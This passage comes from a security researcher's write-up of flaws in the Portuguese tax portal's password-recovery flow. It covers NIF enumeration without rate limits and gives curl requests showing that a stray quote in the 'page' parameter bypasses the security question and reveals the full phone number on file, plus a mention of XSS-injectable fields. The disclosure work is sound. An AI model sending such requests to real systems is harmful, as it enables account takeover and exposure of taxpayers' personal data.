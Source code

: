 {{ image(
    path="images/finance-tax-portal-2/accountdata-partial-phone.png",
    alt="NIF with phone number associated.",
    caption_no="5",
    caption="NIF with phone number associated."
) }}

This endpoint does not have any access or bruteforce restrictions, only a valid session and XSRF token are required (and can be reused during the attack). Therefore, it is possible to enumerate the response data for all valid NIFs.

## NIF + Phone Number Enumeration & Security Question Bypass (+ Bonus XSS)

The next field one must fill in is the loathed security question. "Loathed" because it is a deeply flawed piece of security apparatus that should have been eradicated long ago. Not only is it insecure, but I will show how it is essentially useless in this case (granted, not due to its nature per se, but I digress).

When submitting the above form, the following request is sent:

``` sh
curl -X POST \
  https://www.acesso.gov.pt/unauthed/inserirCodigoForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&recoveryMode=sms&phone=PHONE_NUMBER&page=recoverPassword&questionID=QUESTION_ID&answer=QUESTION_ANSWER&_csrf=VALID_XSRF_TOKEN'
```

After messing around with the request, I found that by adding random characters to the `page` parameter, it wouldn't validate the security question or the phone number and jump straight into the next step (Wild bonus XSS appears: the parameters `answer` and `phone` are also injectable).

One example of such request is:

``` sh
curl -X POST \
  https://www.acesso.gov.pt/unauthed/inserirCodigoForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&recoveryMode=sms&page=recoverPassword"&_csrf=VALID_XSRF_TOKEN'
```

Notice the quote at the end of the parameter. This seems to trigger some state mutation that skips the data checks. Any value that isn't `recoverPassword` will work. I'm willing to guess this is a case of not following the "Fail securely" principle.

Not only did we bypass the security question, but we also managed to get all digits of the associated phone number, readily displayed in the next step.

{{ image(
    path="images/finance-tax-portal-2/full-phone.png",
    alt="Phone number associated with provided NIF.",
    caption_no="6",
    caption="Phone number associated with provided NIF."
) }}
